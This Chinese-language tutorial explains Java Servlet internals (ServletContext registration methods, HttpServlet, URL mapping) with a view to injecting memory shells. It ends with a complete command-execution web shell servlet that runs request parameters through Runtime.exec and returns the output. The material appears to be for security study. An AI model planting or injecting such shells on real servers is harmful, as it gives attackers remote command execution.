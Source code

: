 # Java Servlet

Java SE 中我们可以创建 socket 服务端为用户提供服务，但需要用户使用 socket 客户端，当然也可以基于 socket 实现 HTTP 协议，WebFlux 就是这样子的存在。而在 Java EE 中，Java 制定了 Servlet 规范，来规范在 Java 中提供 HTTP 服务的编写方式，其中有两个重要的概念，Servlet 与 Servlet Container。Servlet 是基于 Java 的 Web 组件，由容器进行管理，提供动态内容。Servlet 容器用于提供基于请求/响应发送模式的服务，必须支持 HTTP，并且管理 Servlet 的生命周期，使 Servlet 在一个受限的安全环境中执行。

Servlet 规范旨在让开发者基于规范开发的应用，可以部署在任意满足规范的 Web 容器上。每个 Servlet 规范版本都引入了一些新的东西，Servlet 4.0 前的版本变更可查看 [java-servlet-version-history](https://www.codejava.net/java-ee/servlet/java-servlet-version-history)。

目前常见的 Servlet 规范就是 [Servlet 3.1](https://github.com/waylau/servlet-3.1-specification/blob/master/docs), Tomcat 8.x 版本就是 Servlet 3.1 版本，从 Servlet 5.0 开始，Java EE 更名为 Jakarta EE，包路径从 javax 改为 jakarta。目前最新的 Servlet 规范是 Servlet 6.1。另外可以 [在此](https://tomcat.apache.org/whichversion.html) 查看 Tomcat 容器支持的 Servlet 规范版本。

## ServletContext

> [Servlet 3.1 规范 - 4.1 ServletContext 接口介绍](https://github.com/waylau/servlet-3.1-specification/blob/master/docs/Servlet%20Context/4.1%20Introduction%20to%20the%20ServletContext%20Interface.md)

ServletContext 定义了 Servlet 运行的 Web 应用视图，一个 Web 应用对应一个 ServletContext。

ServletContext 必须支持编程式添加 Servlet、Filter 和 Listener，对框架开发者有用处。但是规定了这些方法只能在 ServletContextListener.contexInitialized 或 ServletContainerInitializer.onStartup 应用初始化的时候调用。

```java
addServlet(String servletName, String className)
addServlet(String servletName, Servlet servlet)
addServlet(String servletName, Class <? extends Servlet> servletClass)
addFilter(String filterName, String className)
addFilter(String filterName, Filter filter)
addFilter(String filterName, Class <? extends Filter> filterClass)
void addListener(String className)
void addListener(T t)
void addListener(Class <? extends EventListener> listenerClass)
```

这就是在注入内存马时我们需要先拿 Context 的原因（已经写在了 Servlet 规范里面啦），所以针对实现了 Servlet 规范的 Web 容器都是一个套路，并且该反射调用哪些方法也写在里面了。不过在实现的时候却写了那么多代码的原因就是，其规定了这些方法只能在应用初始化的时候调用，我们注入内存马的时候已经是应用运行时了，那些代码实际上就是将方法内的具体实现重新用反射实现一遍。

## HttpServlet

99.99% 的时候，我们实现 HttpServlet 抽象类给予我们的能力就可以了，以下每个方法都对应了 HTTP Method 方法，当我们想要实现处理 Get 请求实现 doGet，处理 Post 请求就实现 doPost。

```java
protected void doGet(HttpServletRequest req, HttpServletResponse resp);
protected void doPost(HttpServletRequest req, HttpServletResponse resp);
protected void doPut(HttpServletRequest req, HttpServletResponse resp);
protected void doDelete(HttpServletRequest req, HttpServletResponse resp);
protected void doHead(HttpServletRequest req, HttpServletResponse resp);
protected void doOptions(HttpServletRequest req, HttpServletResponse resp);
protected void doTrace(HttpServletRequest req, HttpServletResponse resp);
```

Servlet 规范中规定了，对于非分布式应用来说，Servlet 容器必须确保对于每个 Servlet 定义只存在一个实例，但是 Web 服务是多线程的，所以 Servlet 是线程不安全的，在 Servlet 中的成员变量都是线程不安全的。

针对 Servlet 的路径映射提供了注解的方式和 web.xml 方法，以下两种方式都能定义访问 `/foo` 即调用 CalculatorServlet 中对应的实现方法。

```java
@WebServlet(”/foo”)
public class CalculatorServlet extends HttpServlet{
//...
}
```

```xml
<servlet>
    <servlet-name>foo</servlet-name>
    <servlet-class>org.example.CalculatorServlet</servlet-class>
</servlet>
<servlet-mapping>
    <servlet-name>foo</servlet-name>
    <url-pattern>/foo</url-pattern>
</servlet-mapping>
```

## ServletShell

shell 的目的，就是为了定义一个入口，我们能与 Web 服务器进行交互。以下定义了一个命令回显的 ServletShell。

1. doGet 调用转发给 doPost，这样我们即支持 GET 也支持 POST，防止某些情况下有请求方法的限制。
2. 交互的入口是 `request.getParameter` 支持两种方式传参。GET/POST 请求发送 `/?paramName=whoami`，也可以发送 POST 请求时使用 `application/x-www-form-urlencoded` 发送 body 参数。`multipart/form-data` 是不支持从 `request.getParameter` 获取参数的。

```java
public class CommandServlet extends HttpServlet {
    public static String paramName;

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        doPost(req, resp);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            String cmd = request.getParameter(paramName);
            if (cmd != null) {
                Process exec = Runtime.getRuntime().exec(cmd);
                InputStream inputStream = exec.getInputStream();
                ServletOutputStream outputStream = response.getOutputStream();
                byte[] buf = new byte[8192];
                int length;
                while ((length = inputStream.read(buf)) != -1) {
                    outputStream.write(buf, 0, length);
                }
            }
        } catch (Exception ignored) {
        }
    }
}
```
